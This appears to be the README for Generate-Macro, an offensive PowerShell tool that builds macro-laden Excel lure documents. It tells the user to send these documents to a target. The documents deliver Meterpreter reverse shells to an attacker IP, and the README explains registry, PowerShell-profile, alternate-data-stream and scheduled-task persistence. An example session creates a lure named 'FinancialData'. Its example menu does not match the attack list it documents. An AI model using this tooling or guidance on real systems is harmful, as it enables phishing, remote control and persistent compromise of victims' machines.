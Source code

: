 <h2>Coded by Matt Nelson (@enigma0x3)</h2>

<h4>SYNOPSIS</h4>
Generate-Macro is a standalone PowerShell script that will generate a malicious Microsoft Office document with a specified payload and persistence method.

[!] This script will temporarily disable 2 macro security settings while creating the document.
[!] The idea is to generate your malicious document on a development box you OWN and use that document to send to a target.

<h4>DESCRIPTION</h4>
This script will generate malicious Microsoft Excel Documents that contain VBA macros. 
This script will prompt you for an IP address and port (you will receive your shell at this address and port) and the name of the malicious document. From there, the script will then prompt you to choose from a menu of different attacks, all with different persistence methods. Once an attack is chosen, it will then prompt you for your payload type. Currently, only HTTP and HTTPS are supported.

When naming the document, do not include a file extension.

<i>These attacks use Invoke-Shellcode, which was created by Matt Graeber. Follow him on Twitter --> <a href="https://www.twitter.com/mattifestation" target="_blank">@mattifestation</a></i>

<h4>ATTACK TYPES</h4><ul>
<li>Meterpreter Shell with Logon Persistence: <br />
This attack delivers a meterpreter shell and then persists in the registry by creating a hidden .vbs file in C:\Users\Public and then creates a registry key in HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load that will execute the .vbs file on login.</li>

<li>Meterpreter Shell with PowerShell Profile Persistence: <br />
This attack requires the target user to have Administrator privileges but is quite creative. 
It will deliver you a shell and then drop a malicious .vbs file in C:\Users\Default\AppData\Roaming\Microsoft\Windows\Cookies\cookie.vbs. Once dropped, it creates an infected PowerShell Profile file in C:\Windows\SysNative\WindowsPowerShell\v1.0\ and then creates a registry key in HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load that will execute Powershell.exe on startup. 
Since the PowerShell profile loads automatically when Powershell.exe is invoked, your code is executed automatically.</li>

<li>Meterpreter Shell with Alternate Data Stream Persistence: <br />
This attack will give you a shell and then persists my creating 2 alternate data streams attached to the AppData
folder. It then creates a registry key that parses the Alternate Data Streams and runs the Base64 encoded payload.</li>

<li>Meterpreter Shell with Scheduled Task Persistence: <br />
This attack will give you a shell and then persist by creating a scheduled task with the action set to
the set payload.</li>

<h4>EXAMPLE</h4>
```
PS> ./Generate-Macro.ps1
Enter IP Address: 10.0.0.10
Enter Port Number: 1111
Enter the name of the document (Do not include a file extension): FinancialData

--------Select Attack---------
1. Meterpreter Shell with Logon Persistence
2. Meterpreter Shell with Powershell Profile Persistence (Requires user to be local admin)
3. Meterpreter Shell with Microsoft Outlook Email Persistence
------------------------------
Select Attack Number & Press Enter: 1

--------Select Payload---------
1. Meterpreter Reverse HTTPS
2. Meterpreter Reverse HTTP
------------------------------
Select Payload Number & Press Enter: 1
Saved to file C:\Users\Malware\Desktop\FinancialData.xls
```

